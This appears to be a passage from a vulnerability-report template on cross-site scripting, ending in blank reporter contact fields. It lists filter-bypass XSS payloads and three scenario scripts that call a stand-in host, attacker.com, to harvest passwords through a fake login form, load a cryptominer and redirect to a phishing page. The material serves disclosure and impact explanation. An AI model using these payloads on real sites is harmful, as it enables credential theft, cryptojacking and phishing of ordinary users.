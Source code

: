 #### Filter Bypass Techniques
```html
<!-- Case variation -->
<ScRiPt>alert('XSS')</ScRiPt>

<!-- Encoding bypass -->
<script>alert(String.fromCharCode(88,83,83))</script>
<script>alert('\x58\x53\x53')</script>

<!-- Event handler alternatives -->
<details ontoggle=alert('XSS') open>
<marquee onstart=alert('XSS')>
```

### 🎯 Attack Scenarios

#### Scenario 1: Credential Harvesting
```html
<script>
document.body.innerHTML = '<form action="http://attacker.com/harvest" method="post">' +
'<h2>Session Expired - Please Login Again</h2>' +
'Username: <input name="username" type="text"><br>' +
'Password: <input name="password" type="password"><br>' +
'<input type="submit" value="Login">' +
'</form>';
</script>
```

#### Scenario 2: Cryptocurrency Mining
```html
<script src="http://attacker.com/cryptominer.js"></script>
<script>
// Start mining in victim's browser
startMining('attacker_wallet_address');
</script>
```

#### Scenario 3: Social Engineering
```html
<script>
if(confirm('Your account has been compromised! Click OK to secure it now.')) {
    window.location = 'http://attacker.com/phishing';
}
</script>
```

---

## 📞 Contact Information

**Reporter**: [Your Name]  
**Email**: [your.email@example.com]  
**Platform Profile**: [Link to your profile]  
**Preferred Contact Method**: [Email/Platform messaging]  
**Availability**: [Your availability for follow-up questions]

---